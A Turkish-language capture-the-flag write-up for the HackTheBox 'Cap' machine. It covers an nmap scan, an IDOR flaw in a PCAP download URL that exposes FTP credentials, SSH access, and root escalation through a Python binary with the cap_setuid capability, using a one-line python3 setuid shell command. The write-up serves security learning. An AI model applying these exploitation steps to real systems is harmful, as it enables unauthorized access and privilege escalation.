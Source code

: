 ```yaml
---
title: 'HackTheBox | Cap WriteUp'
author: appdone
categories: [HackTheBox Machines]
tags: [idor, linux capabilities]
render_with_liquid: false
media_subpath: /images/hackthebox_cap/
image:
  path: logo.webp
---
```


## Özet

Web uygulamasının PCAP dosyalarını indirdiğimiz alanında bir IDOR zafiyetinin oludğunu öğrenecek ve sırasıyla tüm PCAP dosyalarını indirip, inceleyeceğiz. PCAP dosyalarından birinde bulduğumuz kullanıcı bilgileri ile SSH servisine bağlanacağız. Daha sonra ise python dosyasının setuid yetkisinin olduğunu öğrenecek ve bu yetenekten yararlanarak yetki yükselteceğiz.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sV -sC -T4 10.10.10.245                                                                                                                                                           
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-20 13:30 EDT                                                                                                                            
Nmap scan report for 10.10.10.245                                                                                                                                                             
Host is up (0.52s latency).                                                                                                                                                                   
Not shown: 824 closed tcp ports (reset), 173 filtered tcp ports (no-response)                                                                                                                 
PORT   STATE SERVICE VERSION                                                                                                                                                                  
21/tcp open  ftp     vsftpd 3.0.3                                                                                                                                                             
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)                                                                                                             
| ssh-hostkey:                                                                                                                                                                                
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)                                                                                                                                
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)                                                                                                                               
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)                                                                                                                             
80/tcp open  http    gunicorn                                                                                                                                                                 
|_http-server-header: gunicorn                                                                                                                                                                
|_http-title: Security Dashboard
...
```

Tarama sonucunda üç adet port'un açık olduğunu ve HTTP servisinde çalışan uygulamanın bir yönetim paneli olduğunu öğreniyoruz.

### 80 numaralı port'un incelenmesi

![](1.webp){: width="1200" height="600" }

Web uygulamasında colorlib tarafından yapılmış, dört sayfadan oluşan bir güvenlik teması kullanılıyor. "IP Config" ve "Netword Status" sayfasında belirli komutlardan dönen sonuçlar bulunuyor.

![](2.webp){: width="1200" height="600" }

Son sayfada ise PCAP dosyalarını indirebileceğimiz bir bölüm var.

![](3.webp){: width="1200" height="600" }

## Sömürü aşaması

İndirme butonuna tıkladığımızda bizi "/download/4" sayfasına yönlendiriyor. Bu sayfada ise URL adresinde belirtilen numaraya karşılık gelen PCAP dosyasını indiriyor. Numarayı "0" olarak değiştirdikten sonra indirip, wireshark aracılığıyla görüntülediğimizde FTP servisine ait kullanıcı bilgileri ile karşılaşıyoruz.

![](4.webp){: width="1200" height="600" }

FTP servisinde bağlandıktan sonra ise nathan kullanıcısının dizininde olduğumuzu öğreniyoruz ve dizin geçişlerinin açık olduğunu görüyoruz. Haliyle aynı kullanıcı bilgilerini kullanarak SSH servisine bağlanabileceğimi düşündüm ve bağlandıktan sonra ise ilk bayrağı almak için user.txt dosyasını görüntüledim.

```console
nathan@cap:~$ cat user.txt 
56c***1d8
```

## Yetki yükseltme

### root

Hatırlarsanız, web uygulamasında sistemde bir komut çalıştırdıktan sonra sonuçlarını doğruca ekrana yazdıran bir sayfa vardı. Uygulamanın arka planda ne yaptığını görmek için /var/www/html sayfasına gittiğimizde python'u kullanarak kullanıcı ID'sini 0 yaptığını ve komut çalıştırdığını görüyoruz.

```py
def capture():
        get_lock()
        pcapid = get_appid()
        increment_appid()
        release_lock()

        path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
        ip = request.remote_addr
        # permissions issues with gunicorn and threads. hacky solution for now.
        #os.setuid(0)
        #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
        command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
        os.system(command)
        #os.setuid(1000)
                                                                                                                                                                                              
        return redirect("/data/" + str(pcapid))
```

0 ID'si root kullanıcısına ait olduğundan root yetkisinde komut çalıştırdığını düşünebiliriz. Bunu yapabilmesi için python dosyasına setuid yeteneğinin verilmesi gerekiyor. Kontrol ettiğimizde setuid yeteneğinin olduğunu görüyoruz.

```console
nathan@cap:/var/www/html$ getcap /usr/bin/python3.8
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Aynı komutun sadece komut çalıştıracağımız alanını değiştirdikten sonra çalıştırdığımızda root kullanıcısına geçiş yapıyor ve son bayrağı kendi dizininden alıyoruz.

```console
nathan@cap:/var/www/html$ python3 -c 'import os; os.setuid(0);os.system("bash")'
root@cap:/var/www/html# cd /root
root@cap:/root# ls
root.txt  snap
root@cap:/root# cat root.txt 
857***bad
```
